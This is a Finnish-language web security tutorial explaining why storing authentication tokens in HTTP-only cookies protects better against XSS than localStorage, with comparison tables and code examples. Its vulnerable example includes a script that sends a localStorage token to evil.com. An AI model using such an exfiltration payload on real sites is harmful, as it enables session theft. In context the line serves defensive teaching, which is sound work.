 **Miksi tämä suojaa XSS:ltä:**
```javascript
// ❌ localStorage - XSS voi varastaa
localStorage.setItem('token', token);
// Hakkeri: localStorage.getItem('token') ✓ Toimii

// ✅ HTTP-Only cookie - XSS ei pääse käsiksi
// Hakkeri: document.cookie ✗ Ei näy HTTP-Only cookieta
```

---

## HTTP-Only Cookie ja XSS

### Miksi HTTP-Only Cookie on turvallisempi?

**Vertailu:**

| Tallennuspaikka | JavaScript-pääsy | XSS-haavoittuva | Käyttö |
|-----------------|------------------|-----------------|--------|
| **localStorage** | ✓ Kyllä | ✓ Kyllä | `localStorage.getItem('token')` |
| **sessionStorage** | ✓ Kyllä | ✓ Kyllä | `sessionStorage.getItem('token')` |
| **Cookie (normaali)** | ✓ Kyllä | ✓ Kyllä | `document.cookie` |
| **HTTP-Only Cookie** | ✗ **Ei** | ✗ **Ei** | Lähetetään automaattisesti |

### Käytännön esimerkki

#### ❌ Haavoittuva: localStorage

```javascript
// Login - backend palauttaa tokenin
res.json({ token: 'eyJhbGciOiJIUzI1...' });

// Frontend tallentaa localStorageen
localStorage.setItem('token', data.token);

// XSS-hyökkäys:
<script>
  fetch('https://evil.com/steal?token=' + localStorage.getItem('token'));
</script>
// ✓ Onnistuu - token varastetaan
```

#### ✅ Turvallinen: HTTP-Only Cookie

```javascript
// Login - backend asettaa HTTP-Only cookien
res.cookie('refreshToken', token, {
  httpOnly: true,
  secure: true,
  sameSite: 'strict',
  maxAge: 7 * 24 * 60 * 60 * 1000 // 7 päivää
});

// Frontend - ei tarvitse tallentaa mihinkään
// Cookie lähetetään automaattisesti

// XSS-hyökkäys:
<script>
  console.log(document.cookie); // refreshToken EI näy
  // ✗ Epäonnistuu - JavaScript ei pääse käsiksi
</script>
```
